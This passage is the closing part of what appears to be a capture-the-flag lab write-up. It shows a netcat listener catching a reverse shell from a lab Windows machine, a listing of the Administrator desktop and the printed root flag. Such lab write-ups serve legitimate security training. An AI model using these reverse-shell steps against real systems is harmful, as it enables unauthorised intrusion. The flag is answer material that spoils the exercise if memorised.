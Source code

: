 And then you pwn this machine like a b055!

```
└─$ nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.8.4.19] from (UNKNOWN) [10.10.142.54] 49381
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

...

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  44,152,864,768 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
fl4g_0f_st33l_mR_R0b07_fl4G

```
hehe! nice room! the most interesting part is probably the privilege escalation!

don't forget to leave a readme file with "Leave me here!" as content (It's important!)

aye, take care!
